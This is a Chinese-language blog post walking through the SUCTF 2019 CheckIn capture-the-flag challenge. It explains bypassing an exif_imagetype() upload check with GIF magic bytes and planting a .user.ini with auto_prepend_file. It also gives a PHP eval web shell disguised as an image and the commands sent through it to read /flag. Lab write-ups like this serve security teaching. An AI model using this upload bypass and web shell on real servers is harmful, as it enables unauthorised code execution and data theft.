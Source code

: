 ```yaml
---
layout: post
title: '.user.ini绕过上传'
subtitle: '[SUCTF 2019]CheckIn'
date: 2021-07-27
categories: 技术
cover: 'http://on2171g4d.bkt.clouddn.com/jekyll-theme-h2o-postcover.jpg'
tags: 网络安全
---
```

### [SUCTF 2019]CheckIn

###  一、知识点

> 1.1exif_imagetype()

打开发现是上传，发现可以上传jpg等格式的文件。然后上传txt格式的文件，发现后台好像是通过exif_imagetype函数判断的— 判断一个图像的类型。
	
	<?php
	if (exif_imagetype("image.gif") != IMAGETYPE_GIF) {
	    echo "The picture is not a gif";
	}
	?>
	
	if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
	
	echo "File is not an image";
	 
	return;
	 
	}

但我们可以通过给上传脚本加上相应的幻数头字节就可以绕过：

	JPG ：FF D8 FF E0 00 10 4A 46 49 46
	GIF(相当于文本的GIF89a)：47 49 46 38 39 61
	PNG： 89 50 4E 47

> [1.2.user.ini(重点)](https://wooyun.js.org/drops/user.ini%E6%96%87%E4%BB%B6%E6%9E%84%E6%88%90%E7%9A%84PHP%E5%90%8E%E9%97%A8.html)

首先介绍php.ini文件，php有很多配置，并可以在php.ini中设置。在每个正规的网站里，都会由这样一个文件，而且每次运行PHP文件时，都会去读取这个配置文件，来设置PHP的相关规则。
这些配置可以分为四种：

![](https://1024861435.github.io/assets/img/user.ini绕过1.png)

我感觉是按重要程度分类了，比如关乎到系统一类的配置，那一类的全部配置，都属于“PHP_INI_SYSTEM”。它只能在，像php.ini这样的“厉害”的文件里可以设定。而其他的三类不怎么重要的配置，除了可以在php.ini中设定外，还可以在其它类似的文件中设定，其中就包括.user.ini文件。

实际上，除了PHP_INI_SYSTEM以外的模式（包括PHP_INI_ALL）都是可以通过.user.ini来设置的。而且，和php.ini不同的是，.user.ini是一个能被动态加载的ini文件。也就是说我修改了.user.ini后，不需要重启服务器中间件，只需要等待user_ini.cache_ttl所设置的时间（默认为300秒），即可被重新加载。

这里就很清楚了，.user.ini实际上就是一个可以由用户“自定义”的php.ini，我们能够自定义的设置是模式为“PHP_INI_PERDIR 、 PHP_INI_USER”的设置。（上面表格中没有提到的PHP_INI_PERDIR也可以在.user.ini中设置）

其中有两个配置，可以用来制造后门：
auto_append_file、auto_prepend_file
指定一个文件，自动包含在要执行的文件前，类似于在文件前调用了require()函数。而auto_append_file类似，只是在文件后面包含。 使用方法很简单，直接写在.user.ini中：

auto_prepend_file=test.jpg

那么当我们访问此目录下的任何一个文件时，都会去包含test.jpg

### 二、实践

> 1.制作.user.ini文件

因为后台用exif_imagetype函数检测文件类型，所以我们在文件前加上图片的特征，来绕过检测。

上传文件.user.ini:

	GIF89a
	auto_prepend_file=a.jpg

> 2.制作图片马上传

此处注意，有些题会把含“<?”的文件和过滤掉，所以我们就换个方法制作图片马：注意生成的图片马的名称，要和.user.ini中的配置：auto_prepend_file的值相同。
	
	<script language="php">eval($_POST['a']);</script>

> 3.访问index.php,我们就成功执行了木马。

然后就可以用菜刀连了。但是它会不时的清除文件，所以链接的不是很稳定，甚至有是时候连不上，但我们可以在网页执行命令。所以我第一次就是在页面执行了命令，找到了flag：
扫描根目录：a=var_dump(scandir("/"));，我们可以可以看见一个叫flag的文件
打印：a=var_dump(file_get_contents("/flag"));


